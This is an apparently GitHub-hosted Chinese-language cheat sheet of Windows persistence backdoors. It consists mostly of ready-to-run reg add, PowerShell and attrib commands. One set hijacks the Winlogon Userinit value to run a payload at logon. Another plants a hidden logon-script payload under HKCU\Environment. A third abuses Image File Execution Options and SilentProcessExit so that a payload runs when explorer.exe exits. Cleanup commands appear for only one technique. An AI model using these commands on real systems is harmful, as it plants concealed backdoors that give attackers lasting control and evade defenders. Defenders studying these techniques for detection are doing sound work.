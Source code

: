 **userinit 注册表后门**
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
原理就是用户在登录时，winlogon 会自动运行其中指定的程序

- 直接写入注册表
    ```bash
    reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v Userinit /t REG_SZ /d "C:\Windows\System32\userinit.exe,<powershell代码>" /f
    ```

或者

- 使用 powershell
    ```powershell
    Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name Userinit -value "C:\Windows\system32\userinit.exe,<powershell代码>"
    ```

**Logon Scripts 后门**
```
HKCU\Environment
```

1. 上传后门程序

    将 powershell 的一句话执行程序直接放入 bat 脚本中

2. 隐藏后门程序
    ```
    attrib "C:\Windows\Temp\payload.bat" +h +s
    ```

3. 写入注册表
    ```
    reg add HKCU\Environment /v UserInitMprLogonScript /t REG_SZ /d "C:\Windows\Temp\payload.bat" /f
    ```

- 清除后门
    ```
    reg delete HKCU\Environment /v UserInitMprLogonScript
    ```
    ```
    del C:\Windows\Temp\payload.bat
    ```

**映像劫持**

- https://oddvar.moe/2018/04/10/persistence-using-globalflags-in-image-file-execution-options-hidden-from-autoruns-exe/

需要部署后门程序，但是不易被发现
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\explorer.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\explorer.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\explorer.exe" /v MonitorProcess /d "C:\Users\Administrator\Desktop\payload.exe"
```
